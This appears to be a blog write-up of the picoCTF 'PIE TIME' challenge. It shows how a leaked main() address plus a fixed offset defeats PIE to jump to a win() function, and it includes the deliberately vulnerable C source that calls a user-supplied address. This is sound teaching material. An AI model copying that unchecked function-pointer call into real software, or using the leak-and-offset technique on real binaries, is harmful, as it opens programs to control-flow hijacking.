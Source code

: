 ```yaml
---

layout: post
title: "picoCTF - PIE TIME"
date: 2025-04-21
categories: [CTF, Binary Exploitation, picoCTF, PIE]
---
```


## Overview

In this picoCTF binary exploitation challenge, I bypassed **PIE (Position Independent Executable)** using a leaked address of `main()` to calculate the runtime address of a hidden `win()` function. The exploit hinged on understanding relative addressing, code layout, and controlling a function pointer call.

---

## Challenge Summary

The binary accepted a user-supplied address and attempted to execute it via a function pointer:

```c
void (*foo)(void) = (void (*)())val;
foo();
```

If the jump landed on an invalid address, the program triggered a segmentation fault handler and exited. However, it also conveniently leaked the address of `main()`:

```c
printf("Address of main: %p\n", &main);
```

The goal was to calculate the runtime address of `win()` based on this leak and hijack the function pointer.

---

## Key Observations

### 1. **PIE Is Enabled**

The binary was compiled with PIE, meaning all functions are loaded at randomized base addresses. However, their **relative offsets remain fixed**. I checked this via `checksec --file=./vuln`

![PIE Enabled](/assets/img/picoctf/PIE%20TIME/img1.png)


### 2. **Leak and Offset Relationship**

Using GDB, I disassembled both `main()` and `win()`:

```bash
disassemble main
=> 0x00000000000011a9 <main>

disassemble win
=> 0x000000000000123f <win>
```

**Offset = 0x123f - 0x11a9 = 0x96**

So, regardless of where the binary is loaded, the address of `win()` is always `main_address + 0x96`.

---

## Exploitation Steps

### Step 1: Leak main()

The program printed:

```
Address of main: 0x55a5b5a5a1a9
```

### Step 2: Compute win()

Calculated:

```
win_address = 0x55a5b5a5a1a9 + 0x96 = 0x55a5b5a5a23f
```

### Step 3: Provide to Program

Input:

```
0x55a5b5a5a23f
```

Result:

```
You won!
picoCTF{example_flag_here}
```

Success — the binary jumped directly to `win()` and printed the flag from `flag.txt`.

---

## Memory Layout Visualization

```
Base Address:      0x55a5b5a5a000
   ├── main():     0x55a5b5a5a1a9 (leaked)
   └── win():      0x55a5b5a5a23f (calculated)
```

---

## Why This Works

Because of the binary’s layout:

- PIE randomizes base addresses, but not function spacing
- A leak of `main()` reveals the base
- With static analysis, the offset to `win()` can be precomputed
- Attacker-supplied address hijacks control flow to valid code

This is a textbook example of chaining **info leaks + relative addressing + execution control** into a working exploit.

---

## Source Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;
  printf("You won!\n");
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL) {
    printf("Cannot open file.\n");
    exit(0);
  }
  while ((c = fgetc(fptr)) != EOF) {
    printf("%c", c);
  }
  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0);

  printf("Address of main: %p\n", &main);
  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);
  void (*foo)(void) = (void (*)())val;
  foo();
}
```

---

## Conclusion

This challenge was a great demonstration of how leaking one address in a PIE binary can break ASLR entirely. Once I knew the fixed offset between `main()` and `win()`, I simply added it to the leaked base address and hijacked execution.

**Flag:** `picoCTF{redact}`

